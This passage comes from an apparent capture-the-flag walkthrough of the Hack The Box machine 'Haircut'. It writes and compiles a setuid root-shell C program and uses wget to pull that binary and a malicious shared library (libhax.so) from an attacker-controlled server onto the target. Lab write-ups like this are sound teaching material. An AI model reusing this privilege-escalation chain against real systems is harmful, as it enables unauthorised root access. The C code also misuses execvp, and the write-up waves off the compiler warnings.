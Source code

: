 Now do the second file:

```text
root@kali:~/htb/haircut# cat << EOF > /tmp/rootshell.c
> #include <stdio.h>
> int main(void){
>     setuid(0);
>     setgid(0);
>     seteuid(0);
>     setegid(0);
>     execvp("/bin/sh", NULL, NULL);
> }
> EOF
```

File created, now compile this one:

```text
root@kali:~/htb/haircut# gcc -o /tmp/rootshell /tmp/rootshell.c
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    3 |     setuid(0);
      |     ^~~~~~
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    4 |     setgid(0);
      |     ^~~~~~
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
    5 |     seteuid(0);
      |     ^~~~~~~
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
    6 |     setegid(0);
      |     ^~~~~~~
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
    7 |     execvp("/bin/sh", NULL, NULL);
      |     ^~~~~~
/tmp/rootshell.c:7:5: warning: too many arguments to built-in function ‘execvp’ expecting 2 [-Wbuiltin-declaration-mismatch]
root@kali:~/htb/haircut# rm -f /tmp/rootshell.c
```

We can ignore the errors. Now get the files over to the box:

```text
www-data@haircut:/etc$ cd /tmp

www-data@haircut:/tmp$ wget http://10.10.14.13:8000/libhax.so
--2020-06-04 22:16:06--  http://10.10.14.13:8000/libhax.so
Connecting to 10.10.14.13:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16136 (16K) [application/octet-stream]
Saving to: 'libhax.so'
libhax.so           100%[===================>]  15.76K  --.-KB/s    in 0.02s
2020-06-04 22:16:06 (888 KB/s) - 'libhax.so' saved [16136/16136]

www-data@haircut:/tmp$ wget http://10.10.14.13:8000/rootshell
--2020-06-04 22:16:23--  http://10.10.14.13:8000/rootshell
Connecting to 10.10.14.13:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16824 (16K) [application/octet-stream]
Saving to: 'rootshell.1'
rootshell.1         100%[===================>]  16.43K  --.-KB/s    in 0.03s
2020-06-04 22:16:23 (514 KB/s) - 'rootshell.1' saved [16824/16824]
```